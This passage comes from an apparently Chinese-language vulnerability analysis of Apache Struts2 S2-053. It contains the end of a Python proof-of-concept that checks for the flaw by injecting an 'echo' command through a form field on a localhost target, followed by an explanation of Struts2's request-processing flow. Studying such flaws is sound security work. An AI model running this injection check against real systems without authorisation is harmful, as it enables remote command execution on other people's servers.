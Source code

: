 ```python
        capta = ''
        words = ''.join((string.ascii_letters,string.digits))
        for i in range(8):
            capta = capta + random.choice(words)
        return capta

    def run(self):

        """
        检测是否存在漏洞

        :param:

        :return str True or False
        """
        try:
            self.check_payload = self.payload.format(cmd = urllib.parse.quote('echo ' + self.capta))
            post_data = 'message={data}'.format(data = self.check_payload)
            check_req = requests.post(self.url, headers = self.headers, data = post_data)
            check_str = re.sub('\n', '', check_req.text)
            result = re.findall('<input type="hidden" name="(.*?)" value="" id=".*?"/>', check_str)
            if self.capta in result[0]:
                return True
            else:
                return False
        except Exception as e:
            print(e)
            return False
        finally:
            pass
        
if  __name__ == "__main__":
    S2_053 = S2_053_BaseVerify('http://localhost:8080/s2_053_war_exploded/index.action')
    print(S2_053.run())
```

## 漏洞分析

首先Struts2的运行流程是

![流程图](https://taomujian.github.io/img/S2-053/images/流程图.png)

&emsp;&emsp;&emsp;&emsp;1.HTTP请求经过一系列的标准过滤器(Filter)组件链(这些拦截器可以是Struts2 自带的,也可以是用户自定义的,本环境中struts.xml中的package继承自struts-default,struts-default就使用了Struts2自带的拦截器.ActionContextCleanUp主要是清理当前线程的ActionContext、Dispatcher,FilterDispatcher主要是通过ActionMapper来决定需要调用那个Action,FilterDispatcher是控制器的核心,也是MVC中控制层的核心组件),最后到达FilterDispatcher过滤器.

&emsp;&emsp;&emsp;&emsp;2.核心控制器组件FilterDispatcher根据ActionMapper中的设置确定是否需要调用某个Action组件来处理这个HttpServletRequest请求,如果ActionMapper决定调用某个Action组件,FilterDispatcher核心控制器组件就会把请求的处理权委托给ActionProxy组件.
